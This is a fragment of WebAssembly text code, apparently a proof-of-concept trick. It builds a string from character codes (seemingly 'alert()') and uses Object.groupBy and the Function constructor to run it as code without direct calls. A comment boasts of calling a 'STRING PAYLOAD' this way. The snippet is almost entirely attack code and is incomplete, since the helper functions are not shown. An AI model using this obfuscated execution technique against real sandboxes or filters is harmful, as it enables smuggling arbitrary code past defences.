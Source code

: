 ```js 
    i32.const 108
    call $addKeyMapCharArray


    i32.const 8
    i32.const 101
    call $addKeyMapCharArray


    i32.const 9
    i32.const 114
    call $addKeyMapCharArray


    i32.const 10
    i32.const 116
    call $addKeyMapCharArray

    i32.const 11
    i32.const 40
    call $addKeyMapCharArray

    i32.const 12
    i32.const 41
    call $addKeyMapCharArray

    ;; build {raw:[["H","A"]]}
    (global.get $prevObj)
    call $values 
    (ref.func $genRawChar)
    call $groupBy_i
    (global.set $raw_obj)
    ;; Build array to use ObjectGroup By tricks
    (global.get $raw_obj)
    call $getOwnDis
    call $values
    (global.set $arrWithObj)
    (global.get $arrWithObj)
    i32.const 0
    call $array_get_nth_element
    (global.get $raw_obj)
    call $assign
    (global.set $temp)

    (global.get $arrWithObj)
    (global.get $f_raw)
    call  $groupByFunc
    call $getKeys
    i32.const 0
    call $array_get_nth_element
    (global.set $finalString)
    ;; NOW WE FUCK THE GAMES CALL THE FUNCTIONS(STRING PAYLOAD) WITH OBJ GROUP BY 
    (global.get $finalString)
    


;; call Function("faaeklf") to get function returned
    call $function 
    (global.set $executeCode)
    ;; Call the return function with gorup by
    (global.get $arrWithObj)
    (global.get $executeCode)
    call  $groupByFunc
```